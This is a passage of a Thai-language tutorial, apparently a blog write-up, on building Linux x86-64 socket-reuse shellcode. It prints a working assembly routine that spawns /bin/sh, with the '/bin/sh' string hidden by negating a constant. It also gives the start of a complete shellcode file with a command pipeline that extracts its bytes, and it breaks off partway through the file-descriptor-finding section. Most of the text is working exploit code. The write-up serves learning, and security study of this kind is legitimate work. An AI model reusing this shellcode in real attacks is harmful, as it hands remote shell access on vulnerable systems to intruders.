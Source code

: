 
### 3. เรียก Shell

ผมเขียนให้เรียก `/bin/sh` ไม่เป็นด้วยความเป็น Script kiddie ขอยาดก็อป Assembly เพื่อเอามาเขียน shellcode มาจาก [Shellstorm](http://shell-storm.org/shellcode/files/shellcode-806.php) นะค้าบบบ

ในเมื่อผมไม่ได้เขียนเอง ผมก็ไม่เข้าใจว่ามันทำงานยังไง เลยอธิบายให้ทุกคนฟังไม่ได้จริง ๆ ค้าบ

ยังไงรบกวนทุกคนลองแกะดูหน่อยนะครับว่า assembly ชุดนี้มันทำงานอะไร แล้วทำไมต้องเขียนแบบนี้ ทำไมต้องใช้ neg ใช้อย่างอื่นได้มั้ย ตอนที่ shellcode ทำงาน stack มันจะหน้าตาประมาณไหน แค่คิดก็น่าสนุกแล้วใช่มั้ยค้าบ ลองเอาไปทำดูกันนะค้าบ แล้วอย่าลืมกลับมาสอนผมด้วย 😂

หรือถ้าใครงงจริง ๆ ทักไปถาม [@Bank](https://web.facebook.com/bank.eakasit) ได้เลยนะครับ ไม่ต้องเกรงใจ

```nasm
exec_shell:
	xor rax, rax
	mov rbx, 0xFF978CD091969DD1
	neg rbx
	push rbx
	push rsp
	pop rdi
	cdq
	push rdx
	push rdi
	push rsp
	pop rsi
	mov al, 0x3b
	syscall
```

จบแล้วครัพ เมื่อเอามาประกอบร่างกันก็จะได้แบบนี้

```nasm
; Linux x86-64 - Execve ("/bin/sh") Socket Reuse
; Length: 79 bytes
; Date: 21/03/2021
; Author: Puttimate "Jusmistic" Thammasaeng
; Tested on: x86_64 Debian GNU/Linux

; Socket Reuse x86-64
; 1. Finding sockfd using getpeername function.
; 2. Call dup2 sockfd with 0,1 and 2.
; 3. Execute /bin/sh.

; nasm -f elf64 socket_reuse.asm -o socket_reuse
; objdump -d ./socket_reuse |grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'
; Ref: https://d3fa1t.ninja/2017/09/17/linux-x86-one-way-shellcode-socket-reuse/

find_fd:
    ; 1. Finding sockfd using getpeername function.
    ; int getpeername(int sockfd, struct sockaddr *addr, socklen_t *addrlen);
    ;   src: https://man7.org/linux/man-pages/man2/getpeername.2.html
    ; getpeername syscall: 0x34 
    ;   rax = 0x34 
    ;   rdi = sockfd
    ;   rsi = *addr
    ;   rdx = *addr_len
    ;   src: https://chromium.googlesource.com/chromiumos/docs/+/master/constants/syscalls.md
    ;   Note:
    ;       sockaddr size is 16 bytes.
    ;   Solution:
    ;       1. Prepare stack for *addr and *addr_len
    ;       2. Call getpeername(sockfd++, ...)
    ;       3. loop until rax eq 0 (if the sockfd is correct rax will eq 0)
```